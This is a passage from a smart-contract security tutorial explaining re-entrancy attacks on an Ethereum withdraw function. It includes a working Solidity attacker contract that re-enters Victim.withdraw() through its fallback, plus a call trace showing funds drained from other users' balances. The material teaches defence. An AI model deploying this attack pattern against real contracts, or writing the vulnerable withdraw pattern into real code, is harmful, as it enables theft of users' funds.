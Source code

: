 To allow a user to withdraw ETH they have previously stored on the contract, this function

1. Reads how much balance a user has
2. Sends them that balance amount in ETH
3. Resets their balance to 0, so they cannot withdraw their balance again.

If called from a regular account (such as your own MetaMask account), this functions as expected: msg.sender.call.value() simply sends your account ETH. However, smart contracts can make calls as well. If a custom, malicious contract is the one calling `withdraw()`, msg.sender.call.value() will not only send `amount` of ETH, it will also implicitly call the contract to begin executing code. Imagine this malicious contract:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Calling Attacker.beginAttack() will start a cycle that looks something like:

```
0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() deposits 1 ETH into Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)
```

Calling Attacker.beginAttack with 1 ETH will re-entrancy attack Victim, withdrawing more ETH than it provided (taken from other users' balances, causing the Victim contract to become under-collateralized)

### How to deal with re-entrancy (the wrong way) {#how-to-deal-with-re-entrancy-the-wrong-way}
